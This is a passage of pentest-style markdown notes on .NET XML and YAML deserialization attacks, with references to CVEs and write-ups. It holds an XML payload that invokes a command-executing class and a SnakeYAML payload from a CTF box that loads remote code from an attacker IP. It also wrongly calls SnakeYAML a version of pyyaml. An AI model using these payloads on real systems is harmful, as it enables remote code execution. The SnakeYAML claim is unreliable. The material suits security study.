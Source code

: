 Serialized object:
```xml
<customRootNode>
<item objectType="MultiXMLSerializer.MyFirstConsoleText, MultiXMLSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<MyFirstConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<text>Serializing first class...</text>
</MyFirstConsoleText>
</item>
</customRootNode>
```

Exploit (an `ExecCMD` is defined as well inside the server source code and uses a `cmd` variable string to execute arbitrary commands):
```xml
<customRootNode>
<item objectType="MultiXMLDeserializer.ExecCMD, MultiXMLDeserializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<ExecCMD xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<cmd>calc.exe</cmd>
</ExecCMD>
</item>
</customRootNode>
```

Further references:
- [DotNetNuke Cookie Deserialization Remote Code Execution (RCE) - CVE-2017-9822](https://github.com/murataydemir/CVE-2017-9822)

### Other .NET Deserialization

- [RCE in Progress WS_FTP Ad Hoc via IIS HTTP Modules](../../Readwise/Articles/Assetnote%20-%20RCE%20in%20Progress%20WS_FTP%20Ad%20Hoc%20via%20IIS%20HTTP%20Modules.md)
- [.NET Remoting](../Dev,%20scripting%20&%20OS/dotNET.md#.NET%20Remoting)

## YAML

**Old versions** of pyyaml (like SnakeYAML) were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [Swagger YAML Parser Vulnerability (CVE-2017-1000207 and CVE-2017-1000208)](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/)
- [Securing Our Home Labs: Frigate Code Review](../../Readwise/Articles/Madison%20Oliver%20-%20Securing%20Our%20Home%20Labs%20Frigate%20Code%20Review.md)

Example from [Ophiuchi](https://www.notion.so/Ophiuchi-c77afe7fb3a2427f8a11b60265ed968b) 

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24"]]]]
```


[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master
[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com